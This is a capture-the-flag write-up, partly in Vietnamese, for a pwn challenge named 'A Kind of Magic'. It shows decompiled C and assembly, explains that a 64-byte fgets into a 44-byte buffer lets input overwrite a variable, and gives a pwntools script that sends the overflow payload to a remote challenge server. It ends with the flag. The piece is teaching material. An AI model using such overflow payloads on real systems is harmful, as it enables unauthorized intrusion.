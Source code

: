 # Challenge name: A Kind of Magic

### Description
You're a magic man aren't you? Well can you show me?

## Pseudocode
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[44]; // [rsp+10h] [rbp-30h] BYREF
  unsigned int v5; // [rsp+3Ch] [rbp-4h]
  v5 = 0;
  puts("Is this a kind of magic? What is your magic?: ");
  fflush(_bss_start);
  fgets(s, 64, stdin);
  printf("You entered %s\n", s);
  printf("Your magic is: %d\n", v5);
  fflush(_bss_start);
  if ( v5 == 1337 )
  {
    puts("Whoa we got a magic man here!");
    fflush(_bss_start);
    system("cat flag.txt");
  }
  else
  {
    puts("You need to challenge the doors of time");
    fflush(_bss_start);
  }
  return 0;
}
```

## Assembly code
```assembly
.text:00000000000011C9 ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:00000000000011C9                 public main
.text:00000000000011C9 main            proc near               ; DATA XREF: _start+21↑o
.text:00000000000011C9
.text:00000000000011C9 var_40          = qword ptr -40h
.text:00000000000011C9 var_34          = dword ptr -34h
.text:00000000000011C9 s               = byte ptr -30h
.text:00000000000011C9 var_4           = dword ptr -4
.text:00000000000011C9
.text:00000000000011C9 ; __unwind {
.text:00000000000011C9                 endbr64
.text:00000000000011CD                 push    rbp
.text:00000000000011CE                 mov     rbp, rsp
.text:00000000000011D1                 sub     rsp, 40h
.text:00000000000011D5                 mov     [rbp+var_34], edi
.text:00000000000011D8                 mov     [rbp+var_40], rsi
.text:00000000000011DC                 mov     [rbp+var_4], 0
.text:00000000000011E3                 lea     rdi, s          ; "Is this a kind of magic? What is your m"...
.text:00000000000011EA                 call    _puts
.text:00000000000011EF                 mov     rax, cs:__bss_start
.text:00000000000011F6                 mov     rdi, rax        ; stream
.text:00000000000011F9                 call    _fflush
.text:00000000000011FE                 mov     rdx, cs:stdin@GLIBC_2_2_5 ; stream
.text:0000000000001205                 lea     rax, [rbp+s]
.text:0000000000001209                 mov     esi, 40h ; '@'  ; n
.text:000000000000120E                 mov     rdi, rax        ; s
.text:0000000000001211                 call    _fgets
.text:0000000000001216                 lea     rax, [rbp+s]
.text:000000000000121A                 mov     rsi, rax
.text:000000000000121D                 lea     rdi, format     ; "You entered %s\n"
.text:0000000000001224                 mov     eax, 0
.text:0000000000001229                 call    _printf
.text:000000000000122E                 mov     eax, [rbp+var_4]
.text:0000000000001231                 mov     esi, eax
.text:0000000000001233                 lea     rdi, aYourMagicIsD ; "Your magic is: %d\n"
.text:000000000000123A                 mov     eax, 0
.text:000000000000123F                 call    _printf
.text:0000000000001244                 mov     rax, cs:__bss_start
.text:000000000000124B                 mov     rdi, rax        ; stream
.text:000000000000124E                 call    _fflush
.text:0000000000001253                 cmp     [rbp+var_4], 539h
.text:000000000000125A                 jnz     short loc_1285
.text:000000000000125C                 lea     rdi, aWhoaWeGotAMagi ; "Whoa we got a magic man here!"
.text:0000000000001263                 call    _puts
.text:0000000000001268                 mov     rax, cs:__bss_start
.text:000000000000126F                 mov     rdi, rax        ; stream
.text:0000000000001272                 call    _fflush
.text:0000000000001277                 lea     rdi, command    ; "cat flag.txt"
.text:000000000000127E                 call    _system
.text:0000000000001283                 jmp     short loc_12A0
.text:0000000000001285 ; ---------------------------------------------------------------------------
.text:0000000000001285
.text:0000000000001285 loc_1285:                               ; CODE XREF: main+91↑j
.text:0000000000001285                 lea     rdi, aYouNeedToChall ; "You need to challenge the doors of time"
.text:000000000000128C                 call    _puts
.text:0000000000001291                 mov     rax, cs:__bss_start
.text:0000000000001298                 mov     rdi, rax        ; stream
.text:000000000000129B                 call    _fflush
.text:00000000000012A0
.text:00000000000012A0 loc_12A0:                               ; CODE XREF: main+BA↑j
.text:00000000000012A0                 mov     eax, 0
.text:00000000000012A5                 leave
.text:00000000000012A6                 retn
.text:00000000000012A6 ; } // starts at 11C9
.text:00000000000012A6 main            endp
```

## Methodology
Có thể thấy có 1 câu lệnh if kiểm tra điều kiện và in ra flag. Điều kiện để in ra được flag là "v5 = 1337", mà v5 lại được gán bằng 0 ở đầu hàm. Nên ta nghĩ ngay đến việc thay đổi biến v5 này. 

Có thể thấy s được khai báo chỉ có 44 nhưng khi dùng hàm gets nhập lại có thể nhập được 64 nên có khai thác tại đây.

Dựa vào mã assembly trên thì có thể thấy stack:

![image](https://user-images.githubusercontent.com/88301536/139680460-d9b608f7-0f95-484f-9388-bc16174e0fe3.png)

Có thể dùng gdb chạy debug để tìm địa chỉ của stack

## Exploit
```python
from pwn import *
#r = process('./akindofmagic')
r = remote('143.198.184.186', 5000)
#raw_input('>>')
pl = b'A'*44

pl += p32(0x539)
r.sendline(pl)
r.interactive()
```
Chạy code  trên có được flag

![image](https://user-images.githubusercontent.com/69805864/139617352-d7663cc0-d0ba-4b51-b109-3fe41fad1d77.png)

## FLAG: flag{i_hope_its_still_cool_to_use_1337_for_no_reason}
